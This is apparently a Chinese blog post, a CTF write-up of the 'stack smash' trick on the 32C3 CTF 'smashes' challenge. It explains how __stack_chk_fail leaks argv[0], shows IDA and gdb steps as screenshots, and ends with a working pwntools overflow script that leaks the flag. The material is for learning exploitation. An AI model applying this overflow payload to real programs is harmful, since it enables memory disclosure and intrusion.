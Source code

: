 ```yaml
---
title: 花式栈溢出- stack smash1
date: 2020-07-09 13:03:29
updated: 2020-07-09 13:03:29
tags:
    - 花式栈溢出
    - wiki
    - pwn
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```

# 1.原理

在程序加了canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 __stack_chk_fail 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

所以说如果我们利用栈溢出覆盖 argv[0] 为我们想要输出的字符串的地址，那么在 __fortify_fail 函数中就会输出我们想要的信息。

# 2.查看

 2015 年 32C3 CTF readme 

![image.png](https://i.loli.net/2020/11/17/3CEzjG5Xm7roRuD.png)

# 3.ida分析

![image.png](https://i.loli.net/2020/11/17/5ljeRyXrosHCZT4.png)

![image.png](https://i.loli.net/2020/11/17/sILXUFaxC8KrwyJ.png)

![image.png](https://i.loli.net/2020/11/17/D8zvnygBq2YbJxm.png)

输入的覆写了flag、被置为0

由于在 ELF 内存映射时，bss 段会被映射两次，所以flag在内存中页存在两处

# 4.gdb调试

![image.png](https://i.loli.net/2020/11/17/YWig8OyeCmlZAkK.png)

找到了第二处flag的地址

然后需要找到名称在栈内偏移

断点在main函数

![image.png](https://i.loli.net/2020/11/17/QTIDkFABEpLjxPU.png)

由于我们读入的字符串的起始地址其实就是调用 __IO_gets 之前的 rsp，所以我们把断点下在 call 处

![image.png](https://i.loli.net/2020/11/17/mUQc7ea6ghwJWdY.png)

# 5.编写脚本

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *
context.log_level = 'debug'
p=process('./smashes')


payload='a'*0x218+p64(0x400d20)
p.recvuntil('name? ')
p.sendline(payload)
p.recvuntil('flag: ')
p.sendline('bbbb')
t = p.recv()

p.interactive()
```